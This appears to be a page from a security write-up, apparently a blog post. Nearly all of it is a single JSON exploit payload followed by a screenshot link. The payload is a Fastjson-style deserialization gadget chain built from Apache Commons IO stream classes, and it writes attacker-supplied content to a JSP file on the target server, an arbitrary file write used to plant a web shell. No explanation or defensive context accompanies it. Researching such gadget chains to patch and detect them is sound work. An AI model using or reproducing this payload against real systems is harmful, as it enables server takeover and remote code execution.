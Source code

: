 ```plain
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker888.jsp","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.is.input"},"branch":{"$ref":"$.su16.delegate.reader.is.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```

[![](assets/1706959415-80817f6ef630a3b54f02ea229aadd8df.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231022115419944.png)
